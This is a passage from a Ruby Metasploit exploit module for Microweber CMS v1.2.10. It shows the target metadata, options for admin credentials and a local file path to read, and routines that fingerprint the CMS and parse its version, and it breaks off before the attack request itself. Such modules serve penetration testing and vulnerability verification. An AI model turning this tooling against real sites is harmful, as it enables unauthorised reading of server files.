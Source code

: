         },
        'Targets' => [
          [ 'Microweber v1.2.10', {} ]
        ],
        'Privileged' => true,
        'DisclosureDate' => '2022-01-30'
      )
    )

    register_options(
      [
        OptString.new('TARGETURI', [true, 'The base path for Microweber', '/']),
        OptString.new('USERNAME', [true, 'The admin\'s username for Microweber']),
        OptString.new('PASSWORD', [true, 'The admin\'s password for Microweber']),
        OptString.new('LOCAL_FILE_PATH', [true, 'The path of the local file.']),
        OptBool.new('DEFANGED_MODE', [true, 'Run in defanged mode', true])
      ]
    )
  end

  def check
    res = send_request_cgi({
      'method' => 'GET',
      'uri' => normalize_uri(target_uri.path, 'admin', 'login')
    })

    if res.nil?
      fail_with(Failure::Unreachable, 'Microweber CMS cannot be reached.')
    end

    print_status 'Checking if it\'s Microweber CMS.'

    if res.code == 200 && !res.body.include?('Microweber')
      print_error 'Microweber CMS has not been detected.'
      Exploit::CheckCode::Safe
    end

    if res.code != 200
      fail_with(Failure::Unknown, res.body)
    end

    print_good 'Microweber CMS has been detected.'

    return check_version(res.body)
  end

  def check_version(res_body)
    print_status 'Checking Microweber\'s version.'

    begin
      major, minor, build = res_body[/Version:\s+(\d+\.\d+\.\d+)/].gsub(/Version:\s+/, '').split('.')
      version = Rex::Version.new("#{major}.#{minor}.#{build}")
    rescue NoMethodError, TypeError
      return Exploit::CheckCode::Safe
    end
